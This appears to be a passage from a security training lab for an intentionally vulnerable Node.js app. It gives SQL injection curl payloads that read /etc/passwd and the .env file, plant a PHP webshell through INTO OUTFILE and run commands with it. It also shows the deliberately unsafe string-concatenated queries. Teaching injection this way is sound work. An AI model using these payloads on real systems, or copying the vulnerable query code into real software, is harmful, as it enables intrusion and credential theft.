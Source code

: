 #### Attack 7: Reading Files from Server

```bash
# Read /etc/passwd (Linux)
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT 1,LOAD_FILE('\''/etc/passwd'\''),3,4,5-- "
  }'

# Read application files
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT 1,LOAD_FILE('\''/app/.env'\''),3,4,5-- "
  }'
```

#### Attack 8: Writing Files to Server (WebShell)

```bash
# Write a PHP webshell
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT 1,'\''<?php system($_GET[\"cmd\"]); ?>'\'',3,4,5 INTO OUTFILE '\''/var/www/html/shell.php'\''--"
  }'

# Access the shell
curl http://localhost:3000/shell.php?cmd=whoami
```

### 💡 What Makes This Vulnerable?

**Vulnerable Code:**
```javascript
// backend/server.js - Line 345-373 (Legacy Login)
app.post('/api/legacy-login', async (req, res) => {
  const { username, password } = req.body;
  
  // DANGEROUS: String concatenation!
  const sql = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
  const [results] = await db.execute(sql);
  
  if (results.length > 0) {
    res.json({ success: true, user: results[0] });
  }
});

// backend/server.js - Line 376-388 (Search)
app.post('/api/search', async (req, res) => {
  const { query } = req.body;
  
  // DANGEROUS: User input directly in SQL!
  const sql = `SELECT * FROM users WHERE username LIKE '%${query}%' OR email LIKE '%${query}%'`;
  const [results] = await db.execute(sql);
  
  res.json({ success: true, results: results });
});
```
